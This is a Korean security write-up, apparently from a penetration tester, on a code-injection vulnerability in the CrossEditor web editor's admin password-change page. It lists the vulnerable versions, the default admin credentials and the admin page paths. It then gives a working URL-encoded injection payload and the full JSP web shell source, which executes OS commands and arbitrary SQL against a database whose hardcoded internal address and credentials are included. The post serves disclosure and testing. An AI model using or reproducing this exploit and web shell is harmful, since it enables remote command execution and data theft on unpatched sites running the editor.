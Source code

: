 ```yaml
---
layout: post
title:  "크로스 에디터 (code injection)"
tags: Injection CVE
---
```


# 크로스 에디터 (code injection)

### 취약점 개요 및 영향 버전

고객사 모의침투 프로젝트 진행 중 사이트에서 사용중인 상용 솔루션 크로스에디터가 취약 버전으로 확인 되었고 해당하는 사이트에서 파일 다운로드 취약점을 찾아 취약 소스코드를 분석하게 되었습니다. `PoC가 공개되지 않아서 다른 모의해킹 및 취약점 점검 프로젝트에서 발견되지 못하고 잠재적으로 노후된 솔루션 버전을 사용`하고 있을 가능성이 높다고 생각했고 발견 이후 프로젝트 진행 시 기 취약점으로 쉽게 웹쉘을 업로드할 수 있는 경우가 많았습니다.

![1-00](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/1-1__.png)

### 취약 소스코드

- 크로스 에디터 특성 상 사용중인 웹 시스템에 그대로 소스코드를 integration해야 하므로 별도로 DB를 구축할 수 없어 관리자 **계정 정보를 소스코드로 하드코딩해서 보관**하게 됩니다.
- 패스워드 변경 시 패스워드는 암호화가 되어서 보관되지만 id 파라미터의 경우 전달받아 그대로 평문으로 저장됩니다.
- 위의 특성을 통해 패스워드 변경을 처리하는 페이지에 운영체제 명령어를 실행하는 소스코드 인젝션 시 비밀번호 변경 처리 페이지가 웹쉘로 탈바꿈되어 침투가 가능합니다.

![1-0](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/1-2_1_.png)

### 취약점 전제조건

1. 취약한 버전을 사용해야 합니다.
- 3.5.1.38 이하 버전
- 4.3.2.29 이하 버전
1. 관리자 계정이 취약해야 합니다.
- 디폴트 계정 ID : admin / PW : 1234
- 기본적으로 임계값은 설정되어 있지 않기 때문에 알려진 패스워드로 사전 대입 공격도 고려할 수 있습니다.

### 취약점 확인 방법

글쓰기 등으로 에디터 플러그인에 접근이 가능하다면 `Ctrl+Shift+A` 를 이용해서 버전 확인이 가능합니다.

![1-1 크로스 에디터 버전 확인.png](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/1-1_%ED%81%AC%EB%A1%9C%EC%8A%A4_%EC%97%90%EB%94%94%ED%84%B0_%EB%B2%84%EC%A0%84_%ED%99%95%EC%9D%B8.png)

일반적으로 사용되는 경로나 plugin javascript 등을 통해서 크로스 에디터 관리자 페이지 경로로 접근할 수 있습니다.

<aside>
💡 취약점 발견 당시 확인 되었던 관리자 페이지 경로
/namoEditor/plugin/crossEditor/manage/index.html
/namo2/manage/index.html

</aside>

![Untitled](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/Untitled.png)

간혹 관리자 페이지를 삭제해서 메인 페이지에 접근하지 못하도록 조치 한 경우도 존재합니다.

![1-3 관리자 페이지 막힘.png](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/1-3_%EA%B4%80%EB%A6%AC%EC%9E%90_%ED%8E%98%EC%9D%B4%EC%A7%80_%EB%A7%89%ED%9E%98.png)

로그인을 처리하는 페이지로 직접 접근해서 세션을 획득하면 됩니다.

<aside>
💡 /namo2/manage/jsp/login_proc.jsp

</aside>

![1-4 URL로 직접 접근.png](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/1-4_URL%EB%A1%9C_%EC%A7%81%EC%A0%91_%EC%A0%91%EA%B7%BC.png)

획득한 세션으로 취약 모듈인 패스워드 변경 페이지로 직접 접근합니다.

<aside>
💡 /namo2/manage/jsp/account_setting.jsp

</aside>

![1-5 패스워드 변경 페이지 직접 접근.png](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/1-5_%ED%8C%A8%EC%8A%A4%EC%9B%8C%EB%93%9C_%EB%B3%80%EA%B2%BD_%ED%8E%98%EC%9D%B4%EC%A7%80_%EC%A7%81%EC%A0%91_%EC%A0%91%EA%B7%BC.png)

### 취약점 재현

Step 1) 비밀번호 변경 시 u_id 파라미터에  코드 인젝션을 진행하면 됩니다. 코드 인젝션으로 소스코드가 변경되기 때문에 주의사항이 필요합니다.

- 코드 인젝션 시 컴파일 에러가 발생하지 않도록 올바른 코드를 입력해야합니다.
(테스트 환경을 구축해서 테스트해보고 공격 페이로드를 입력하는게 안전합니다.)
- ID/PW 변수가 손상되면 관리자 로그인이 불가능해질 수 있습니다.
    
    ![1-7.png](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/1-7.png)
    

Step 2) manageInfo.jsp로 접근해서 운영체제 명령어를 실행합니다.

![Untitled](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/Untitled%201.png)

Step 3) manageInfo.jsp의 공격 전후입니다.
![1-6 변경 전후.png](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/1-6_%EB%B3%80%EA%B2%BD_%EC%A0%84%ED%9B%84.png)

### 공격 페이로드
```jsx

admin";%0a%25>%0a<%25@+page+language="java"+contentType="text/html;+charset=UTF-8"+pageEncoding="UTF-8"%25>%0a<%25@+page+import="java.util.*,java.io.*"%25>%0a<meta+charset="UTF-8">%0a<form+method=GET+Action='manageInfo.jsp'>%0a<input+name='cmd'+type=text+style="width:500px;height:50px;">%0a<input+type=submit+value='Run'>%0a</Form>%0a<textarea+style="width:700px;height:500px">%0a<%25%0a%09String+cmd+=+request.getParameter("cmd");%0a%09String+output+=+"";%0a%09if(cmd+!=+null)+{ %0a%09%09String+s+=null;%0a%09%09try+{ %0a%09%09%09Process+p+=+Runtime.getRuntime().exec("cmd.exe+/C+"%2bcmd);%0a%09%09%09BufferedReader+sI+=+new+BufferedReader(new+InputStreamReader(p.getInputStream()));%0a%09%09%09while((s+=+sI.readLine())+!=+null)+{ %0a%09%09%09%09out.println(s);%0a%09%09%09}%0a%09%09}%0a%09%09catch(IOException+e)+{ %0a%09%09%09e.printStackTrace();%0a%09%09}%0a%09}%0a%25>%0a</textarea>%0a<%25%0a%09String+a+="1

```

공격 코드 원본

```java
admin";
%>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<%@ page import="java.lang.*"%>
<%@ page import="java.sql.*"%>
<%@ page import="java.util.*"%>
<%@ page import="java.io.*"%>
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<meta charset="UTF-8">
<h1> Coommand Execute </h1>
<form method=POST Action='manageInfo.jsp'>
 <input name='cmd' type=text style="width:500px;height:50px;">
 <input type=submit value='Run'>
</Form>
<br>
<textarea style="width:700px;height:500px">
<%
 String cmd = request.getParameter("cmd");
 String output = "";
 if(cmd != null) {
  String s =null;
  try {
    Process p = Runtime.getRuntime().exec(cmd);
    BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
    while((s = sI.readLine()) != null) {
      out.println(s);
    }
  }
  catch(IOException e) {
    e.printStackTrace();
  }
 }
 %>
</textarea>
<br><br><br>
<h1> SQL Execute </h1>
<form method="GET" action="">
 <input name="query" type="text" style="width:500px; height:50px;">
 <input type="submit" value="RUN">
</form>
<br><br>
<%
 String sql = request.getParameter("query");
 if(sql != null) {
   try {
     String url = "jdbc:oracle:thin:@172.25.251.124:1721:HABISPDB";
     String user = "MATIE";
     String pass = "MATIE_20";

     Class.forName("oracle.jdbc.driver.OracleDriver");
     Connection conn = DriverManager.getConnection(url, user, pass);
     Statement stmt = conn.createStatement();
     ResultSet rs= stmt.executeQuery(sql);
     ResultSetMetaData rsmd = rs.getMetaData();
     int count = rsmd.getColumnCount();
     out.println("<br><br>");
     out.println("<table border=\"1\" cellspacing=\"0\" cellpadding=\"0\" style=\"width:500px; border: 1px solid #444444; text-align:center;\">");
     out.println("<tr>");
     for(int i=1; i<=count; i++){
       out.println("<th>"+rsmd.getColumnLabel(i)+"</th>");
     }
     out.println("</tr>");
     while(rs.next()){
       out.println("<tr>");

       for(int i=1; i<=count; i++)
       {

         switch(rsmd.getColumnType(i))
         {
           case Types.NUMERIC :
           case Types.INTEGER :
             out.println("<td>"+rs.getInt(i)+"</td>"); break;
           case Types.FLOAT :
             out.println("<td>"+rs.getFloat(i)+"</td>"); break;
           case Types.DOUBLE :
             out.println("<td>"+rs.getDouble(i)+"</td>"); break;
           case Types.DATE :
             out.println("<td>"+rs.getDate(i)+"</td>"); break;
           case Types.CHAR :
           default :
             out.println("<td>"+rs.getString(i)+"</td>");
         }
       }
       out.println("</tr>");

     }
     out.println("</table>");
     conn.close();
   }
   catch(Exception e)
   {
      out.println("<br><br>");
      out.println("not query or sql error");
   }
 }

%>
<% String a="123
```

### 실습환경

```bash
docker pull rbdhks9826/crs
```